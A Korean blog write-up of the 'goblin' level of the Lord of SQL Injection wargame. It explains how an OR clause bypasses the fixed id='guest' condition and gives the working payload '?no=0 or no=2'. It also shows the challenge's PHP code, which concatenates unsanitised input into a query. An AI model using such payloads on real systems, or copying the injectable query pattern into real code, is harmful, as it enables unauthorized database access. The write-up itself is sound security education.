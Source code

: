 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - goblin 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `goblin` 문제이다.  

이번에는 `password column` 대신에 `no column`이 생겼다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`no column`이 새로 생겼으며, `id`가 `guest`로 고정되어 있다.  

또한 이번에는 `'(싱글쿼터)`를 입력할 수 없다.  

하지만 문제를 풀기 위해서는 `id`가 `admin`인 행을 추출해야 한다.  

`where` 절에서 `id='guest'`와 `no=??`의 두 조건은 `and`로 연결되어 있다.  

따라서 이를 이용 해 문제를 풀 수 있을 것 같다.  

데이터베이스에 아래와 같이 저장되어 있다고 가정 해 보자.  

| no  | id |
| :------------ | :-----------: |
| 0 | guest |
| 1 | admin |

이 경우, 만약 `no` 자리에 `0`이 있다면 결과적으로 `where id='guest' and no={$_GET[no]}`의 where 절은 참이 되므로 첫 번째 행이 추출 될 것이다.  

하지만 만약 `no`자리에 `0이 아닌 값`이 들어간다면 결과적으로 조건절은 `거짓`이 되어 아무런 결과 값을 가져오지 않는다.  

이 때, 만약 뒤에 아래와 같이 `or`로 묶인 조건이 추가적으로 있을 경우 뒤의 조건문을 실행하게 된다.  

```
where id='guest' and no=1 or no=1
```

위의 where 절에서 `id='guest'`이고 `no=1`인 행이 없으므로, `and`로 묶여 있는 조건은 `거짓`이 된다.  

때문에 `or`뒤의 조건을 실행하게 되어 `no=1`인 행을 추출하게 된다.  

따라서 기존에 있던 조건 뒤에 추가적으로 조건을 삽입할 수 있다면 `id`가 `guest가 아닌` 행을 추출할 수 있다.  

먼저 문제를 풀기 위해 `guest`의 `no`가 무엇인지 확인하기 위해 `no`에 `0`, `1`을 입력 해 보았다.  

```php
-------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=1
-------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

그 결과 `no`가 `1`일 때 `Hello guest`가 출력되는 것을 확인할 수 있다.  

따라서 `guest`의 `no`는 `1`임을 알 수 있으며 추측할 수 있는 데이터베이스의 데이터는 다음과 같다.  

| no  | id |
| :------------ | :-----------: |
| 1 | guest |
| 1이 아닌 값 | admin |

즉, `id`가 `admin`인 행의 `no`는 `1이 아닌 값`으로 되어 있을 것이다.  

위에서 설명했다시피 다음과 같이 입력 해 `and`로 묶인 조건을 거짓으로 만드는 쿼리를 구성하면 `id가 guest가 아닌 행`을 추출할 수 있다.  

```
?no=0 or no=0
```

따라서 `id`가 `admin`인 행을 추출하기 위해 `or` 뒤의 `no` 자리에 `1`이 아닌 값을 차례로 입력 해 보면 언젠가는 내가 원하는 행을 추출할 수 있을 것이다.  

`0`부터 입력해 본 결과, `no`가 `2`일 때 문제를 풀 수 있었다.  

```php
---------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=0 or no=2
---------------------------------------------------------------------

Hello admin
GOBLIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`GOBLIN Clear!!`